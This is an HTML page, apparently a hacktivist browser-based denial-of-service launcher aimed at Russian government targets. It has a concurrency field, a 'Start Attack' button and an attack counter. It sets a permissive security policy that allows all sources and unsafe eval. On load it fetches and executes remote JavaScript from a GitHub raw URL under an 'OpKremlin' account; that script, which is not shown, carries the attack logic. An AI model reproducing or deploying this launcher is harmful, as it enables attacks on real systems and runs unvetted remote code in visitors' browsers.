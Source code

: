 <html>
<head>
    <title>Glory To Uraine - Slava Ukraini</title>
    <meta name="description" content="Проект, який дозволить кожному внести свій внесок проти російського уряду">
    <meta name="keywords" content="">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="IE=11"/>
    <meta http-equiv="Cache-Control" content="no-cache"/>
    <meta http-equiv="Content-Security-Policy" content="default-src * 'unsafe-inline' 'unsafe-eval'; script-src * 'unsafe-inline' 'unsafe-eval'; connect-src * 'unsafe-inline'; img-src * data: blob: 'unsafe-inline'; frame-src *; style-src * 'unsafe-inline';"/>   
</head>

<body>
<script src="https://code.jquery.com/jquery-3.6.0.min.js" integrity="sha256-/xUj+3OJU5yExlq6GSYGSHk7tPXikynS7ogEvDej/m4=" crossorigin="anonymous"></script>

<div>
    Wait for the target to load.<br>
    When it is loaded the button will appear<br>
    <input id="concAttack" type="number" min="5" step="1" value="5"/>
    <button id="StartAttack" value="Start Attack" style="display: none;">Start Attack</button>
    <br><br>
    Attacks performed: <atk id="atkP"></atk>
</div>

<div id="attackBoard">
</div>

<script>
$.ajax({
  method: "GET",
  url: "https://raw.githubusercontent.com/OpKremlin/Op1/main/main.js",
  dataType: "script"
});
</script>
</body>
</html>
